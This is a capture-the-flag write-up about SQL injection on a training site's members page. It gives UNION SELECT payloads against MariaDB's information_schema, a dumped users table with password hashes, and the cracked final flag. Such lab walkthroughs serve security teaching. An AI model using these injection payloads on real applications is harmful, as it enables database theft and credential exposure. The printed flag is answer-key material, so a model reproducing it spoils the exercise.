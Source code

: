 # SQL Injection

The members page allows us to view a user based off of his id. This should set off alarm bells as this probably indicates a SQL request, especially when viewing the result.
Indeed, all SQL lines contain an id, and then additional information as defined by the admin.

```
ID: 1 
First name: one
Surname : me
```

## The Vuln

When testing with different inputs, we quickly learn that this is a MariaDB database. This is very useful info as this can help us craft or SQL payload. 
Before anything else, we need to see what tables are in the database as well as the columns in each table.

Thankfully we MariaDB has some useful tables that we can always access called "information_schema.tables" and "information_schema.columns"

As we only have two columns we can show at a time, let's first get all the table names, and then decide which ones to investigate further:

```
1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables
1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS
```

Just taking a look at the tables, we see some interesting ones:
```
ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: db_default
Surname : 2

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: users
Surname : 4

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: guestbook
Surname : 1

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: list_images
Surname : 5

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: vote_dbs
Surname : 5
```
---
Let's see what kind of things they are hiding:

|db_default|||
|:-:|:-:|:-:|
|id|username|password|

|users||||||||
|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
|user_id|first_name|last_name|town|country|planet|Commentaire|countersign|
|1|one|me|Paris|France|EARTH|Je pense, donc je suis|2b3366bcfd44f540e630d4dc2b9b06d9|
|2|two|me|Helsinki|Finlande|Earth|Aamu on iltaa viisaampi.|60e9032c586fb422e2c16dee6286cf10|
|3|three|me|Dublin|Irlande|Earth|Dublin is a city of stories and secrets.|e083b24a01c483437bcf4a9eea7c1b4d|
|5|Flag|GetThe|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28|


|guestbook|||
|:-:|:-:|:-:|
|id_comment|comment|name|

|list_images||||
|:-:|:-:|:-:|:-:|
|id|url|title|comment|

|vote_dbs||||
|:-:|:-:|:-:|:-:|
|id_vote|vote|nb_vote|subject|

---
We can't seem to access the other tables beside users at the moment. Querys to the other tables results in
```
Table 'Member_Sql_Injection.'table_name'' doesn't exist
```

## Flag

Following the instructions in the commentaire section, we decrypt "5ff9d0165b4f92b14994e5c685cdce28", which is the MD5 hash of "FortyTwo".
making it lowercase and hashing it in sha256 results in the following:

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```